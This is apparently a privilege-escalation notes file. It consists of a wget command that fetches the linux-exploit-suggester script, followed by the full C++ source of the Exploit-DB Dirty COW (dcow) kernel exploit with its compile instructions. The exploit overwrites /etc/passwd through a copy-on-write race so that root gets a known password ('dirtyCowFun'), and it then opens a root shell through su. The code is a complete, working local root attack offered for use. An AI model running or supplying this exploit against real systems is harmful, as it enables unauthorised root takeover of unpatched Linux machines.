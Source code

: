 
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

# dir-cow-2
// EDB-Note: Compile:   g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
// EDB-Note: Recommended way to run:   ./dcow -s    (Will automatically do "echo 0 > /proc/sys/vm/dirty_writeback_centisecs")
//
// -----------------------------------------------------------------
// Copyright (C) 2016  Gabriele Bonacini
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License as published by
// the Free Software Foundation; either version 3 of the License, or
// (at your option) any later version.
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
// You should have received a copy of the GNU General Public License
// along with this program; if not, write to the Free Software Foundation,
// Inc., 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301  USA
// -----------------------------------------------------------------

#include <iostream>
#include <fstream>
#include <string>
#include <thread>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>
#include <pwd.h>
#include <pty.h>
#include <string.h>
#include <termios.h>
#include <sys/wait.h>
#include <signal.h>

#define  BUFFSIZE    1024
#define  PWDFILE     "/etc/passwd"
#define  BAKFILE     "./.ssh_bak"
#define  TMPBAKFILE  "/tmp/.ssh_bak"
#define  PSM         "/proc/self/mem"
#define  ROOTID      "root:"
#define  SSHDID      "sshd:"
#define  MAXITER     300
#define  DEFPWD      "$6$P7xBAooQEZX/ham$9L7U0KJoihNgQakyfOQokDgQWLSTFZGB9LUU7T0W2kH1rtJXTzt9mG4qOoz9Njt.tIklLtLosiaeCBsZm8hND/"
#define  TXTPWD      "dirtyCowFun\n"
#define  DISABLEWB   "echo 0 > /proc/sys/vm/dirty_writeback_centisecs\n"
#define  EXITCMD     "exit\n"
#define  CPCMD       "cp "
#define  RMCMD       "rm "

using namespace std;

class Dcow{
    private:
       bool              run,        rawMode,     opShell,   restPwd;
       void              *map;
       int               fd,         iter,        master,    wstat;
       string            buffer,     etcPwd,      etcPwdBak,
                         root,       user,        pwd,       sshd;
       thread            *writerThr, *madviseThr, *checkerThr;
       ifstream          *extPwd;
       ofstream          *extPwdBak;
       struct passwd     *userId;
       pid_t             child;  
       char              buffv[BUFFSIZE];
       fd_set            rfds;
       struct termios    termOld,    termNew;
       ssize_t           ign;

       void exitOnError(string msg);
    public:
       Dcow(bool opSh, bool rstPwd);
       ~Dcow(void);
       int  expl(void);         
};

Dcow::Dcow(bool opSh, bool rstPwd) : run(true), rawMode(false), opShell(opSh), restPwd(rstPwd),
                   iter(0), wstat(0), root(ROOTID), pwd(DEFPWD), sshd(SSHDID), writerThr(nullptr),
                   madviseThr(nullptr), checkerThr(nullptr), extPwd(nullptr), extPwdBak(nullptr), 
                   child(0){ 
   userId = getpwuid(getuid());
   user.append(userId->pw_name).append(":");
   extPwd = new ifstream(PWDFILE);   
   while (getline(*extPwd, buffer)){
       buffer.append("\n");
       etcPwdBak.append(buffer);
       if(buffer.find(root) == 0){
          etcPwd.insert(0, root).insert(root.size(), pwd);
          etcPwd.insert(etcPwd.begin() + root.size() + pwd.size(), 
                        buffer.begin() + buffer.find(":", root.size()), buffer.end());
       }else if(buffer.find(user) == 0 ||  buffer.find(sshd) == 0 ){
          etcPwd.insert(0, buffer);
       }else{
          etcPwd.append(buffer);
       }
   }
   extPwdBak = new ofstream(restPwd ? TMPBAKFILE : BAKFILE);
   extPwdBak->write(etcPwdBak.c_str(), etcPwdBak.size());
   extPwdBak->close();
   fd = open(PWDFILE,O_RDONLY);
   map = mmap(nullptr, etcPwdBak.size(), PROT_READ,MAP_PRIVATE, fd, 0);
}

Dcow::~Dcow(void){
   extPwd->close();
   close(fd);
   delete extPwd; delete extPwdBak; delete madviseThr; delete writerThr; delete checkerThr;
   if(rawMode)    tcsetattr(STDIN_FILENO, TCSANOW, &termOld);
   if(child != 0) wait(&wstat); 
}

void Dcow::exitOnError(string msg){
      cerr << msg << endl;
      // if(child != 0) kill(child, SIGKILL);
      throw new exception();
}

int  Dcow::expl(void){
   madviseThr = new thread([&](){ while(run){ madvise(map, etcPwdBak.size(), MADV_DONTNEED);} });
   writerThr  = new thread([&](){ int fpsm = open(PSM,O_RDWR);  
                                  while(run){ lseek(fpsm, reinterpret_cast<off_t>(map), SEEK_SET); 
                                              ign = write(fpsm, etcPwd.c_str(), etcPwdBak.size()); }
                                });
   checkerThr = new thread([&](){ while(iter <= MAXITER){ 
                                         extPwd->clear(); extPwd->seekg(0, ios::beg); 
                                         buffer.assign(istreambuf_iterator<char>(*extPwd),
                                                       istreambuf_iterator<char>());
                                         if(buffer.find(pwd) != string::npos && 
                                            buffer.size() >= etcPwdBak.size()){
                                                run = false; break;
                                         }
                                         iter ++; usleep(300000);
                                   }
                                   run = false;
                                 });

  cerr << "Running ..." << endl;
  madviseThr->join();
  writerThr->join();
  checkerThr->join();

  if(iter <= MAXITER){ 
       child = forkpty(&master, nullptr, nullptr, nullptr);

       if(child == -1) exitOnError("Error forking pty.");

       if(child == 0){ 
          execlp("su", "su", "-", nullptr);
          exitOnError("Error on exec.");
       }

       if(opShell) cerr << "Password overridden to: " <<  TXTPWD << endl;
       memset(buffv, 0, BUFFSIZE);
       ssize_t bytes_read = read(master, buffv, BUFFSIZE - 1);
       if(bytes_read <= 0) exitOnError("Error reading  su prompt.");
       cerr << "Received su prompt (" << buffv << ")" << endl; 

       if(write(master, TXTPWD, strlen(TXTPWD)) <= 0) 
            exitOnError("Error writing pwd on tty.");

       if(write(master, DISABLEWB, strlen(DISABLEWB)) <= 0) 
            exitOnError("Error writing cmd on tty.");

       if(!opShell){
            if(write(master, EXITCMD, strlen(EXITCMD)) <= 0) 
                 exitOnError("Error writing exit cmd on tty.");
       }else{
           if(restPwd){
               string restoreCmd = string(CPCMD).append(TMPBAKFILE).append(" ").append(PWDFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd on tty.");
               restoreCmd        = string(RMCMD).append(TMPBAKFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd (rm) on tty.");
           }

           if(tcgetattr(STDIN_FILENO, &termOld) == -1 )
                exitOnError("Error getting terminal attributes.");
    
           termNew               = termOld;
           termNew.c_lflag       &= static_cast<unsigned long>(~(ICANON | ECHO));
    
           if(tcsetattr(STDIN_FILENO, TCSANOW, &termNew) == -1)
                exitOnError("Error setting terminal in non-canonical mode.");
           rawMode = true;
    
           while(true){
                FD_ZERO(&rfds);
                FD_SET(master, &rfds);
                FD_SET(STDIN_FILENO, &rfds);
    
                if(select(master + 1, &rfds, nullptr, nullptr, nullptr) < 0 )
                    exitOnError("Error on select tty.");
    
                if(FD_ISSET(master, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(master, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) break;
                    if(write(STDOUT_FILENO, buffv, bytes_read) != bytes_read)
                          exitOnError("Error writing on stdout.");
                }
    
                if(FD_ISSET(STDIN_FILENO, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(STDIN_FILENO, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) exitOnError("Error reading from stdin.");
                    if(write(master, buffv, bytes_read) != bytes_read) break;
                }
            }
      }
  }
 
  return [](int ret, bool shell){ 
       string msg = shell ? "Exit.\n" : string("Root password is:   ") + TXTPWD + "Enjoy! :-)\n";
       if(ret <= MAXITER){cerr << msg; return 0;}
       else{cerr << "Exploit failed.\n"; return 1;} 
  }(iter, opShell);
}

void printInfo(char* cmd){
      cerr << cmd << " [-s] [-n] | [-h]\n" << endl;
      cerr << " -s  open directly a shell, if the exploit is successful;" << endl;
      cerr << " -n  combined with -s, doesn't restore the passwd file." << endl;
      cerr << " -h  print this synopsis;" << endl;
      cerr << "\n If no param is specified, the program modifies the passwd file and exits." << endl;
      cerr << " A copy of the passwd file will be create in the current directory as .ssh_bak" << endl;
      cerr << " (unprivileged user), if no parameter or -n is specified.\n" << endl;
      exit(1);
}

int main(int argc, char** argv){
   const char  flags[]   = "shn";
   int         c;
   bool        opShell   = false,
               restPwd   = true;

   opterr = 0;
   while ((c = getopt(argc, argv, flags)) != -1){
      switch (c){
         case 's':
            opShell = true;
         break;
         case 'n':
            restPwd = false;
         break;
         case 'h':
            printInfo(argv[0]);
         break;
         default:
            cerr << "Invalid parameter." << endl << endl;
            printInfo(argv[0]);
      }
   }

   if(!restPwd && !opShell){
            cerr << "Invalid parameter: -n requires -s" << endl << endl;
            printInfo(argv[0]);
   }

   Dcow dcow(opShell, restPwd);
   return dcow.expl();
}

